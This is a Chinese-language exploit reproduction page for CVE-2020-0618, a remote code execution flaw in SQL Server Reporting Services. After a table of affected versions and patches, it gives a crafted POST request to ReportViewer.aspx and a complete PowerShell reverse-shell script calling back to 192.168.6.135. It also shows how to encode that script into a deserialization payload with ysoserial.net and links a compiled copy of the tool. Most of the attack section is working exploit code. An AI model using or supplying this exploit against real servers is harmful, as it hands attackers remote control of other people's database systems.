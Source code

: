 ```yaml
---
title: "（CVE-2020-0618）SQL Server 远程代码执行漏洞"
id: zhfly3136
---
```


# （CVE-2020-0618）SQL Server 远程代码执行漏洞

## 一、漏洞简介

该漏洞需要经过身份验证后，攻击者向 SQL Server 的报告服务(Reporting Services) 发送特制请求进行触发。攻击成功可获得SQL Server服务的对应控制权限。

## 二、漏洞影响

| 产品 | 版本 | 修复补丁编号 |
| --- | --- | --- |
| SQL Server 2016 Service Pack 2(GDR) | 13.0.5026.0 - 13.0.5101.9 | KB4505220 |
| SQL Server 2016 Service Pack 2 CU11 | 13.0.5149.0 - 13.0.5598.27 | KB4527378 |
| SQL Server 2014 Service Pack 3 (GDR) | 12.0.6024.0 - 12.0.6108.1 | KB4505218 |
| Server 2014 Service Pack 2 CU4 | 12.0.6205.1 - 12.0.6329.1 | KB4500181 |
| SQL Server 2012 Service Pack 4 (QFE) | 11.0.7001.0 - 11.0.7462.6 | KB4057116 |

## 三、复现过程

首先登陆 ReportServer/pages/ReportViewer.aspx

```
POST /ReportServer/pages/ReportViewer.aspx HTTP/1.1
Host: target
Content-Type: application/x-www-form-urlencoded
Content-Length: X `NavigationCorrector$PageState=NeedsCorrection&NavigationCorrector$ViewState=[PayloadHere]&__VIEWSTATE=` 
```

可以在PowerShell中使用以下命令来使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)工具生成有效负载：

```
$command = '$client = New-Object System.Net.Sockets.TCPClient("192.168.6.135",80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)

$encodedCommand = [Convert]::ToBase64String($bytes) `.\ysoserial.exe -g TypeConfuseDelegate -f LosFormatter -c “powershell.exe -encodedCommand $encodedCommand” -o base64 | clip` 
```

> 编译好的ysoserial.net下载地址：https://github.com/ianxtianxt/ysoserial.net/
> 
> ps：上述命令在powershell里面执行好后，会自动黏贴到剪贴板上。

![image](../img/a75a74c9146e16953f568f023182acde.png)

## 参考链接

> https://www.mdsec.co.uk/2020/02/cve-2020-0618-rce-in-sql-server-reporting-services-ssrs/